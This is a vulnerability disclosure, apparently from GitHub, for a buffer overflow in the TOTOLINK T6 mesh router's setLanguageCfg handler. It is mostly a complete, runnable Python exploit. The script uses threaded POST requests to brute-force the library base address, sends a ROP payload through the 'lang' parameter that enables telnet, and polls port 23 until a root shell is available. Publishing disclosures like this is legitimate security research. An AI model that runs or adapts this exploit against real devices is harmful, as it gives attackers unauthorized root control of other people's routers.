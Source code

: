 # Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)

**Affected firmware version:** V4.1.5cu.748_B20211015

**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)

# Overview

TOTOLINK Mesh Wifi T6 router has a buffer overflow vulnerability that lead to RCE. This vulnerability can be triggered through the topicurl ` setLanguageCfg`. An attacker can implement a RCE attack by sending a malicious HTTP POST request.

# Vulnerability details

The `product_info` is 256 bytes.

![](2/1.png)

`lang` is the param attacker control.

![](2/2.png)

`sprintf` doesn't check length of `lang`. When the attacker send a malicious `lang` param, the saved ret_address will be overwrite. Lead it to execute whatever the attacker want.

![](2/3.png)

Attacker can reboot the system or bruteforce the base of dynamic library to do ROP chain attack. In the POC video, the attacker turn on `telnet` to achive root shell.

# POC

```python
import requests, sys, threading, time, queue, random, struct, socket, os

MAX_ADDR = 2 ** 12
WORKER_AMOUNT = 4

START_TIME = 0

brute_queue = queue.Queue()

def worker(target_ip):
    while True:
        try:
            brute_val = brute_queue.get_nowait()
        except queue.Empty:
            break
        
        print("  [-] Trying 0x%x" % brute_val)

        url = f"http://{target_ip}/cgi-bin/cstecgi.cgi"

        brute_base = 0x77000000 
        telnetd_str_off = 0x5BA4

        brute_val = brute_val * 0x1000 + brute_base # base of /lib/libdl-0.9.33.so
        brute_val += 0x11c000

        brute_telnet_str = brute_val + telnetd_str_off

        temp = struct.pack("<I", brute_telnet_str)

        payload = b"A" * 324 + temp + b"C" * 4 + b"\x08\x88\x40"

        data = b'''
        {
            "topicurl":"setLanguageCfg",
            "lang":"%s",
            "langAutoFlag":"sad POC"
        }
        ''' % (payload)

        requests.post(url, data=data)

def check_telnet(target_ip):
    global START_TIME
    print("[+] Check telnet port !!")
    while True:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
            sock.settimeout(1)
            try:
                sock.connect((target_ip, 23))
                print(f"[+] Found !!")
                print(f"[+] Script run: {round(time.time() - START_TIME)}s")
                os._exit(0)
            except (socket.timeout, socket.error):
                continue
        time.sleep(1)

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print(f"[-] Usage: {sys.argv[0]} target_ip")
        exit(0)

    START_TIME = time.time()
    print(f"[+] Wish me luck !!")
    
    brutes = list(range(0x10, MAX_ADDR))
    random.shuffle(brutes)

    for brute in brutes:
        brute_queue.put(brute)
    
    threads = []
    for _ in range(WORKER_AMOUNT):
        t = threading.Thread(target=worker, args=(sys.argv[1],))
        t.start()
        threads.append(t)

    t2 = threading.Thread(target=check_telnet, args=(sys.argv[1],))
    t2.start()
    threads.append(t2)

    for t in threads:
        t.join()
```

[POC 1](https://www.youtube.com/watch?v=0rEefcxuqpU) - Turn on telnet by bruteforcing dynamic library base
[POC 2](https://www.youtube.com/watch?v=jSMOeIb6dLY) - Make the system to reboot